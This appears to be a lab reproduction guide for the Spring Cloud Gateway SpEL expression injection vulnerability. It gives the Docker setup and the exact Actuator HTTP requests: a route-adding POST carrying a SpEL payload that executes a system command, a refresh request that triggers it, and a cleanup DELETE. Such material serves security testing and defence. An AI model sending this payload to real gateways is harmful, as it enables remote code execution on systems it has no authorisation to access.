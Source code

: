 # Spring Cloud Gateway Server Unauthorized Access Vulnerability

## Vulnerability Description

Spring Cloud Gateway is an API gateway in Spring. Versions 3.1.0 and 3.0.6 (inclusive) and prior contain a SpEL expression injection vulnerability. If an attacker can access the Actuator API, the vulnerability can be exploited to execute arbitrary commands.

## Environment Setup

Run the following command to start a web service that uses Spring Cloud Gateway 3.1.0:

```
docker-compose up -d
```

After the service starts, access `http://your-ip:8080` to see the demo page, and the upstream of this page is example.com.

![image-20220519211640099](../../.gitbook/assets/image-20220519211640099.png)

## Vulnerability Reproduction

Exploiting this vulnerability requires multiple steps.

First, send the following packet to add a route containing malicious SpEL expression:

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![image-20220519211737396](../../.gitbook/assets/image-20220519211737396.png)

Then, send the following packet to apply the newly added route.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1

```

![image-20220519212128250](../../.gitbook/assets/image-20220519212128250.png)

 This packet will trigger the execution of the SpEL expression:

![image-20220519212220678](../../.gitbook/assets/image-20220519212220678.png)

Finally, send the following packet to clean up and delete the added route:

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.0.5:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```

![image-20220519212306237](../../.gitbook/assets/image-20220519212306237.png)

Refresh the routes:

![image-20230130134103788](../../.gitbook/assets/image-20230130134103788.png)